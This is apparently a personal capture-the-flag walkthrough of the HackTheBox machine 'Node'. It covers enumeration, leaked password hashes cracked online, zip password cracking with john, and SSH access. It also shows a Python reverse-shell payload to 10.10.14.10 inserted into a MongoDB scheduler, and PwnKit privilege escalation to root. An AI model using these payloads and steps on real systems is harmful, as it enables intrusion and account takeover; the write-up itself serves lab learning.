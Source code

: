 ![[Pasted image 20240720105714.png]]

**Ping**
![[Pasted image 20240625173018.png]]

**Nmap Scans**
```
mapit 10.10.10.58
```

Nmap Default Scan
![[Pasted image 20240625173140.png]]

Nmap Service and Script Scan
![[Pasted image 20240625173253.png]]
![[Pasted image 20240625173308.png]]

Nmap All Port Scan
![[Pasted image 20240625173803.png]]

On port 3000
![[Pasted image 20240625173420.png]]

Feroxbuster
```
feroxbuster --url https://10.10.10.58:3000 -k -o feroxbuster.txt
```
![[Pasted image 20240625180513.png]]
Can't get any useful info

Will analyse the source code
![[Pasted image 20240625180557.png]]
We have lit of java script file, always look for sensitive info in .js files

As guessed, we got some sensitive info from http://10.10.10.58:3000/assets/js/app/app.js
![[Pasted image 20240625180720.png]]

Will navigate to the page http://10.10.10.58:3000/partials/admin.html
![[Pasted image 20240625180757.png]]
We got something...!

But only admin user can download the file

Will enumerate more, can get more paths in http://10.10.10.58:3000/assets/js/app/controllers/home.js
![[Pasted image 20240625182053.png]]
can see /api/user/latest

This gives us info http://10.10.10.58:3000/api/users/
![[Pasted image 20240625182217.png]]

decrypted all the hash using crackstaion https://crackstation.net/
![[Pasted image 20240625182602.png]]
Have encrypted three out of 4 hash

**Credentials**
myP14ceAdm1nAcc0uNT:manchester
tom:spongebob
mark:snowflake

Will try this creds to login
First with admin cred
![[Pasted image 20240625182948.png]]
Worked...!

Will download and analyse the content
![[Pasted image 20240625183654.png]]

After analysing the content its looks like base64 encoded, will decode it
```
cat myplace.backup | base64 --decode > backup.decoded
```
![[Pasted image 20240625183628.png]]

I have opened the file, but it is in some unsupported format, will analyse the file time now
![[Pasted image 20240625183829.png]]

It is a zip file, will unzip it
![[Pasted image 20240625183926.png]]
It is asking password

Will find password
```
zip2john backup.decoded > backup.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
```
![[Pasted image 20240625184116.png]]
Found it....! **magicword**

After unzipping, there is new directory var, will explore
![[Pasted image 20240625184516.png]]
![[Pasted image 20240625184640.png]]
Found mark's Password: mark:5AYRft73VtFpc84k



Will ssh now with marks' cred
```
ssh mark@10.10.10.58
```
![[Pasted image 20240625184903.png]]
![[Pasted image 20240625184939.png]]

Can find user.txt in tom's home directory but we don't have permissions
![[Pasted image 20240625185114.png]]

We can see pkexec in SUID 
```
find / -perm -u=s -type f 2>/dev/null
```
![[Pasted image 20240625185405.png]]

pkexec version is vulnerable
```
pkexec --version
```
![[Pasted image 20240625185429.png]]

Using mongodb to get user tom access
```
mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler
```
```
show collections          \\list databse tables
db.tasks.find().pretty()   \\to list content of table tasks
```
```
db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.10\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})
WriteResult({ "nInserted" : 1 })   \\insert a reverse shell code in table tasks
```
![[Pasted image 20240626001318.png]]

Will set a Netcat listener
![[Pasted image 20240626001637.png]]\


Using Pkexec 
Vulnerable version I have escalated my privileges to root 

Used PwnKit
![[Pasted image 20240626001817.png]]

Root.txt
![[Pasted image 20240626001903.png]]

User.txt
![[Pasted image 20240626001938.png]]



Done with Node....:)